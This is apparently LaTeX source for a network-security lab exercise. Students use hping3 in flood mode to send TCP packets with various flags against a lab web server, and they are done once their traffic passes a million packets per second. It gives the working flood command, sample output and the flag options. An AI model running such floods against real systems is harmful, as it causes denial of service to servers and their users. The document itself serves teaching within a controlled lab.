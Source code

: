 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
\chapter{\faInfoCircle\ TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100%
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.

\begin{alltt}
-L  --setack     set TCP ack
-F  --fin        set FIN flag
-S  --syn        set SYN flag
-R  --rst        set RST flag
-P  --push       set PUSH flag
-A  --ack        set ACK flag
-U  --urg        set URG flag
-X  --xmas       set X unused flag (0x40)
-Y  --ymas       set Y unused flag (0x80)
\end{alltt}





{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.
\end{document}
